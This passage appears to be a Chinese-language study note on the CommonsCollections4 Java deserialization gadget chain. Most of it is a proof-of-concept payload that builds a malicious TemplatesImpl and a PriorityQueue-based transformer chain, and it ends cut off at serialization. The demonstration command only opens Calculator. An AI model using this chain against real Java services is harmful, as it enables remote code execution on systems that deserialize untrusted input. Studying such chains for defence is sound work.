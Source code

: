 ```java
													Runtime.exec()
```

# CommonsCollections4

## Basics

CC4 没有新利用的类，CC2 跟 CC3 结合了一下



## Gadget chain

**CC4 payload**

```java
public class CC4 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "TestDemo");
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] realPoc = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        TransformingComparator comparator = new TransformingComparator(fakeChain);
        PriorityQueue queue = new PriorityQueue(2);
        Object[] queue_array = new Object[]{templates, 1};

        // gadget
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue, queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue, 2);

        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue, comparator);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(queue);
```